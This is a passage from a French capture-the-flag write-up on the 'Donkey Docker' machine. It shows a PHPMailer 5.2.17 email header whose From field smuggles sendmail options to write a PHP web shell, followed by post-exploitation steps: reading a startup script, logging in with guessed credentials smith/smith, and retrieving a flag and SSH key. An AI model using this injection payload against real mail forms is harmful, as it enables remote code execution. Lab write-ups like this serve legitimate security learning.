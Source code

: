 ```plain
H??From: Docker Donkey Server <"attacker\" -oQ/tmp/ -X/www/phpcode.php   some"@email.com> 
H??Message-ID: <0acccfff72a67c6805d080b6d6f5ab8f@192.168.101.132> 
H??X-Mailer: PHPMailer 5.2.17 (https://github.com/PHPMailer/PHPMailer) 
H??MIME-Version: 1.0 
H??Content-Type: text/plain; charset=iso-8859-1 
.
```

Jules de chez Smith en face
---------------------------

Avec mon nouveau shell je découvre un script à la racine :  

```bash
$ cat /main.sh 
#!/bin/bash 

# change permission 
chown smith:users /home/smith/flag.txt 

# Start apache 
source /etc/apache2/envvars 
a2enmod rewrite 
apachectl -f /etc/apache2/apache2.conf 

sleep 3 
tail -f /var/log/apache2/*& 

# Start our fake smtp server 
python -m smtpd -n -c DebuggingServer localhost:25
```

On remarque ainsi que l'utilisateur *smith* cache un flag.  

Comme rien ne semble prometteur malgré l'excellent LinPEAS je tente de me connecter avec *smith* / *smith* et ça fonctionne !  

```plain
smith@12081bd067cc:~$ cat flag.txt   
This is not the end, sorry dude. Look deeper! 
I know nobody created a user into a docker 
container but who cares? ;-) 

But good work! 
Here a flag for you: flag0{9fe3ed7d67635868567e290c6a490f8e} 

PS: I like 1984 written by George ORWELL
```

Certes, très bon livre si vous avez les tripes solides. L'indice est plus parlant quand on regarde du côté de SSH :  

```plain
smith@12081bd067cc:~/.ssh$ cat authorized_keys   
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICEBBzcffpLILgXqY77+z7/Awsovz/jkhOd/0fDjvEof orwell@donkeydocker
```
